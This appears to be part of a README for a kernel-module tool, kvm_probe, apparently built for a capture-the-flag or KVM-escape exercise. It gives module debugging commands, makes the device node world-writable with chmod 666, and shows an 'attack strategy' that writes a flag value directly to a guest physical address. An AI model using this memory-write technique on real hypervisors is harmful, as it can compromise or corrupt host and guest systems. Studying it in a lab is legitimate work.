 ## 🐛 Debugging Commands

### Module Status
```bash
# Check if loaded
lsmod | grep kvm_probe

# View kernel messages
dmesg | grep kvm_probe

# Watch live kernel messages
dmesg -w
```

### Device Status
```bash
# Check device exists
ls -la /dev/kvm_probe*

# Check device permissions
stat /dev/kvm_probe_dev

# Fix permissions if needed
sudo chmod 666 /dev/kvm_probe_dev
```

### Troubleshooting
```bash
# Reload module
sudo rmmod kvm_probe_drv
sudo insmod kvm_probe_drv.ko

# Check for errors
dmesg | tail -20

# Verify module loaded correctly
sudo modinfo kvm_probe_drv.ko
```

## 🎲 Attack Strategies

### Strategy 1: Direct GPA Attack (Simplest)
```bash
# Write flag directly
kvm_prober writegpa 64279a8 4443424241efbeadde

# Verify
kvm_prober readgpa 64279a8 8
```
